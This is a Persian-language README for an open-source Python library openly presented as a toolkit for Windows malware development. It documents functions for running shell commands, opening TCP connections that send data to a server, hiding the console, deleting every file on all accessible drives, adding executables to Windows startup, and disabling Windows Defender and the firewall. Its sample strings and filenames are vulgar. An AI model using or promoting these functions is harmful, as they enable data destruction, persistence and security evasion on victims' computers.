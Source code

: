 # به داکیومنت کتابخونه من خوش امدید!
این یک پروژه کاملا اوپن سورس هست که در راستای توسعه بدافزار با پایتون درحال توسعه است

درون سورس هیچ گونه کد خطرناک یا بدافزاری پنهان نشده است و صرفا در راستای کمک به توسعه بهتر برنامه های پایتونی توسعه یافته است


# نحوه نصب کتابخونه!
کافیه اول با استفاده از گیت سورس داخل همین صفحه رو دانلود کنید به کامند زیر

    git clone https://github.com/6E6L6F/Bad_Windows_ELF
   سپس با یوزر ادمین آن را نصب کنید
   

    python3 setup.py install

##نحوه فراخوانی کتابخونه و کلاس ها و توابع آن!

پس از نصب کتابخونه کافیه در محیط کد نویسی خود به صورت زیر کلاس اصلی را صدا بزنید

    from ELF_Wibdows.windows import BadWindows
   تعدادی تابع داخل این کلاس قرار دارد که تمامی آن ها اسینک هستن و برای اجرا شدن آن باید از یک کتابخونه دیگر استفاده کرد به صورت پیش فرض نصب هست
   

    import asyncio
   حالا یک تابع اصلی میسازیم و سپس کلاس را پاس میدهیم به یک متغیر و ان را صدا زده و خروجی ان را خواهیم گرفت
  

    async def main():
		    main = BadWindows()
		    result = await main.get_drive()
		    print(result)
		    
	asyncio.run(main())
اگر کد زیر را اجرا کنید مقدار برگشتی یک لیست حاوی تعدادی دیکشنری داخلش هست که اسم و ادرس تمامی پارتیشن ها و درایو ها همراه با فرمت انان است

یک مثال ساده از چگونگی اجرای کد 


## کاربرد توابع همراه توضیحات

این کلاس در شروع کار تعداد کمی توابع درون خود دارد که به مرور زمان بیشتر خواهد شد

اما توابع

برای گرفتن لیست کل فایل های ریشه ای یک دایرکتوری از تابع زیر استفاده میکنیم 

    await main.get_files()
##
   برای اتصال یک کانکشن با پروتکل تی سی پی از تابع زیر استفاده میکنیم

    await main.connect_to_server(server_address='192.168.1.12' , port_address='8888' , data=b'man kos mikham')
>   این تابع ۳ پارامتر ورودی میگیره که ایپی ادرس سروری که باید وصل بشه بهشو میگیره و دومی پورت باز سرور و سومی در صورت دلخواه میتوانید یک دیتای را ارسال کنید سمت ان سرور
   و در خروجی یک اینستنس از کانکشن برمیگردونه ک در صورت نیاز میتوانید کار های بسیاری انجام دهید
##
تابع بعدی دستورات سیستمی را اجرا و سپس خروجی ان را به ما میدهد  

    result = await bad.run_command("ls")
    print(result)
##
این تابع شل اجرایی برنامه را مخفی میکند و در بک گراند اجرا میکند

    await main.hide_console()
  ##
  این تابع تمامی فایل های درون تمامی هارد ها و پارتیشن های قابل دسترسی ر ا حذف میکند

    await main.delete_all_file()
   ##
   تابع چنج بک گراند از نامش مشخص است که بک گراند کامپیوتر را تغییر میدهد

    await main.change_background(pathfile = '/Desktop/kos.jpg')
> این تابع یک پارامتر تحت عنوان مسیر فایل میگیرد که مسیر مکانی باید باشد که عکس در ان انجا ذخیره شده است و فرمت عکس باید یکی از دو حالت زیر باشد      .(png , jpg)

## 
تابعی در این کلاس وجود دارد که هر فایل اجرایی مد نظز شما را در استارت آپ ویندوز قرار میدهد تا اجرا شود

    await add_to_startup(file_path = "/Desktop/kos.exe")
  > این تابع یک پارامتر میگیرد که به طور پیش فرض خود سورس را در استارت اپ قرار میدهد اما میتونید ان را تغییر داده و هر برنامه ای را در استارت اپ قرار دهید
  
  ##
  یکی از توابع مهم و پرکاربرد در توسعه بدافزار ویندوزی اینجاست. این تابع ویندوز دفندر و فایروال را خاموش میکند
  

    await main.off_firewall_and_defender()
##
در حال حاضر این کلاس این مقدار تابع را درون خود جا داده است که به زودی تابع های جدید تری به ان اضافه خواهد شد

## کلاس ریپیت تایمر

این کلاس یک تابع میگیرد و سپس طی مقدار بازه زمانی مشخص ان را اجرا میکند به طور مثال هر ۱۰ ثانیه یکبار

نحوه فراخوانی

    from ELF_Linux.RepeateTime import RepeatedTimer
    
نحوه استفاده

    timer = RepeatedTimer(interval = 10 , functions = main , *args , **kwargs)
   
   برای اجرا
   

    timer.run()

برای قطع کردن آن

    timer.stop()
    

# Contact Me 
Telegram: @E_L_F_6_6_6
 
Instagram: @E_L_F_6_6_6
 
Rubika: @E_L_F_6_6_6
 
Bale: @E_L_F_6_6_6

